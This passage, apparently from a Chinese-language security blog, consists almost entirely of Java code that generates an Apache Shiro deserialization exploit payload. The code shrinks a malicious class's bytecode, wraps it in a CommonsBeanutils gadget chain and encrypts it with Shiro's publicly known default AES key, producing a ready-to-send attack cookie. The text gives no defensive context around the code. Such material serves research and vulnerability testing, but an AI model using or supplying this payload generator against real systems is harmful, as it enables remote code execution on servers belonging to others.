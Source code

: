 最终得到如下的 payload 生成代码

```plain
public class Client1 {
    public static void main(String []args) throws Exception {

        ClassPool classPool = ClassPool.getDefault();
        CtClass clazz = classPool.get(MyClassLoader.class.getName());
        CtMethod ctMethod = clazz.getDeclaredMethod("transform");
        clazz.removeMethod(ctMethod);
        byte[] old_payload = shortenClassBytes(clazz.toBytecode());
        byte[] payloads = new CommonsBeanutils1Shiro().getPayload(old_payload);
        //byte[] payloads = new CommonsBeanutils1Shiro().getPayload(clazz.toBytecode());

        AesCipherService aes = new AesCipherService();
        byte[] key = java.util.Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.println(ciphertext.toString().length());
    }

    public static byte[] shortenClassBytes(byte[] classBytes) {
        ClassReader cr = new ClassReader(classBytes);
        ClassWriter cw = new ClassWriter(ClassWriter.COMPUTE_FRAMES);
        int api = Opcodes.ASM7;
        ClassVisitor cv = new ShortClassVisitor(api, cw);
        int parsingOptions = ClassReader.SKIP_DEBUG | ClassReader.SKIP_FRAMES;
        cr.accept(cv, parsingOptions);
        byte[] out = cw.toByteArray();
        return out;
    }
    public static class ShortClassVisitor extends ClassVisitor {
        private final int api;
        public ShortClassVisitor(int api, ClassVisitor classVisitor) {
            super(api, classVisitor);
            this.api = api;
        }
        @Override
        public MethodVisitor visitMethod(int access, String name, String descriptor, String signature, String[ ] exceptions) {
            MethodVisitor mv = super.visitMethod(access, name, descriptor, signature, exceptions);
            return new ShortMethodAdapter(this.api, mv);
        }
    }
    public static class ShortMethodAdapter extends MethodVisitor implements Opcodes {
        public ShortMethodAdapter(int api, MethodVisitor methodVisitor) {
            super(api, methodVisitor);
        }
        @Override
        public void visitLineNumber(int line, Label start) {
            // delete line number
        }
    }

}
```
